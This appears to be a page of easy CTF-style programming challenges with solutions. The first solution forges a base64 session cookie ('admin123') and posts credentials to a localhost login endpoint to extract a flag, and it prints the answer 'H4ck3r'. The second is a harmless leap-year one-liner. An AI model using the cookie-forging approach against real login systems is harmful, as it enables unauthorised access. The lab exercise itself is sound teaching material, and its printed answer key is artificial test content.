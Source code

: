 ## Easy

### 1) Your task would be to create a python script to create an encrypted cookie and brute force the login system to gain access . You can use the request and crypto python libraries

```text
import requests
import re
import base64

value = 'admin123'.encode('ascii')
b64_bytes = base64.b64encode(value)
b64_value = b64_bytes.decode('ascii')

url = 'http://localhost:8080/login'
credentials = {'username': 'Kit', 'password': 'Kat'}
cookies = dict(session_id=b64_value)
r = requests.post(url, data=credentials, cookies=cookies)
data = r.json()['flag']
pattern = "[flag{}]"
flag_value = re.sub(pattern,"",data)
print(flag_value)
```
Output: **H4ck3r** <br />

### 2) Make a one line python program to find whether the given year is leap or not.

```text
print("Leap Year") if (all((x % 4 == 0  and x % 100 != 0 or x % 400 == 0 for x in [int(input())]))) else print("Non Leap Year")
```

